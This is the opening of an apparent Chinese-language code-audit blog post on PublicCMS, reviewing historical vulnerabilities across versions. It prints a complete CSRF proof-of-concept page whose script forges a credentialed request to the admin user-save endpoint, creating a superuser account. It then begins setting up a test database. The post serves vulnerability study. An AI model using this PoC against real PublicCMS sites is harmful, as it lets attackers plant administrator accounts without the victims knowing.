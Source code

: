 ```yaml
---
title: PublicCMS代码审计及版本对比分析
tags:
  - java安全
  - 代码安全
  - 代码审计
categories: 代码安全
---
```






## 简介

项目地址：https://github.com/sanluan/PublicCMS

看一下issus发现很多漏洞，我们一个一个看。





## 历史漏洞对比分析

### CSRF

isssue提交日期：2018-5-25，地址：https://github.com/sanluan/PublicCMS/issues/11

poc

```
<html>
  <!-- CSRF PoC  -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/127.0.0.1:8080\/publiccms\/admin\/sysUser\/save.do?callbackType=closeCurrent&navTabId=sysUser\/list", true);
        xhr.setRequestHeader("Accept", "application\/json, text\/javascript, *\/*; q=0.01");
        xhr.setRequestHeader("Content-Type", "application\/x-www-form-urlencoded; charset=UTF-8");
        xhr.setRequestHeader("Accept-Language", "zh-CN,zh;q=0.9,en;q=0.8");
        xhr.withCredentials = true;
        var body = "id=&name=testvul&superuserAccess=on&deptId=1&deptName=%E6%8A%80%E6%9C%AF%E9%83%A8&password=123456&repassword=123456&nickName=testvul&email=test%40gmail.com&roleIds=1";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
      submitRequest();
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
  </body>
</html>
```

分别下载PublicCMS1.0和PublicCMS-2016

创建数据库

```
create database publiccms DEFAULT CHARACTER SET utf8mb4 COLLATE utf8mb4_general_ci;
```

